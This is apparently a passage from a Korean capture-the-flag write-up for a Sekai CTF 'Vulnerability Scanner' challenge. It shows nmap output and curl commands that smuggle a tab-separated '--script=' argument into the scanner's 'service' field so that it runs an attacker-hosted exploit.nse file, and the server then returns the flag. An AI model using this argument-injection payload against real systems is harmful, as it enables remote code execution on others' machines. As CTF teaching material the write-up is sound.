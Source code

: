```bash
  
    <pre class="result"> <code>Starting Nmap 7.92 ( https://nmap.org ) at 2025-08-10 15:49 UTC
Nmap scan report for 192.168.64.1
Host is up (0.0013s latency).

PORT     STATE SERVICE
8000/tcp open  http-alt
|_http-fetch: Successfully Downloaded Everything At: /tmp/hi/192.168.64.1/8000/

Nmap done: 1 IP address (1 host up) scanned in 2.02 seconds
</code></pre>
  
</div>
</body>
</html>
```

### 4. exploit.nse 실행

```bash
 curl -X POST 3 --data-binary \
 $'service=<본인IP>:<본인IP>\t--script=/tmp/hi/<본인IP>/<본인IP>/exploit.nse' \
 <target_domain>/
```

### 5. FLAG 획득

```bash
ijebin@ijebin-ui-MacBookPro Sekai_CTF %  curl -X POST 3 --data-binary \
 $'service=192.168.64.1:8000\t--script=/tmp/hi/192.168.64.1/8000/exploit.nse' 192.168.64.5:1337/
curl: (7) Failed to connect to 0.0.0.3 port 80 after 1 ms: Couldn't connect to server
<!DOCTYPE html>
<html>
<head>
  <title>Scanner Service</title>
  <link rel="stylesheet" href="stylesheets/style.css">
</head>
<body>
<div class="wrapper">

  <div class="center-text">
    <h1 class="title">Vulnerability Scanner</h1>
    <form action="/" method="post">
      <p>Enter your Target</p><br>
      <input type="text" name="service" value="" placeholder="IP-Address:Port">
      <input type="submit" value="Scan">
    </form>
  </div>

  
    <pre class="result"> <code>Starting Nmap 7.92 ( https://nmap.org ) at 2025-08-10 16:00 UTC
SEKAI{4r6um3n7_1nj3c710n_70_rc3!!}</code></pre>
  
</div>
</body>
</html>
```
